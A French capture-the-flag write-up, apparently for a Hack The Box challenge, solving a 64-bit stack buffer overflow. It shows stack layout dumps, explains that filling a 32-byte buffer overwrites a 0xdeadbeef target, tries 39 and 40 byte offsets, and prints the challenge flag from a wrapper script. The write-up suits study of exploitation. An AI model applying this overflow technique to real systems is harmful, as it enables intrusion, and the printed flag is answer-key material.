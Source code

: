 # fichiers fournis par le challenge

* wrapper.py : script python pour bof, modifier les valeurs requires (IP, Port, nombre de A's) et installer pwntools (pip3 install pwntools) 
* flag.txt : Exemple de flag invalide
* gs (ghostscript) : binary instrumenting tool
* ld-linux-x86-64.so.-2 : dynamic linker/loader for Linux systems
* libc.so.6 : shareled library 

# solution 

Après quelques recherches j'ai exécuté : 

LD_PRELOAD=./libc.so.6 ./ld-linux-x86-64.so.-2 ./GS

et ma donner le output suivant : 

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x0000000000000000 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210


After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x0000000041414141 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210


After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x4242424241414141 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210

◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                                                 ◉
◉  Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.  ◉
◉                                                                                                 ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉


J'ai vérifier le nombre de bytes a inséré pour le bof, j'ai commencer par 39 suivi de 40 et a fini par recevoir ce output par le script wrapper.py : 

python3 ./wrapper.py 
[+] Opening connection to 209.97.134.50 on port 30135: Done
[+] Flag --> HTB{b0f_s33m5_3z_r1ght?}
[*] Closed connection to 209.97.134.50 port 30135

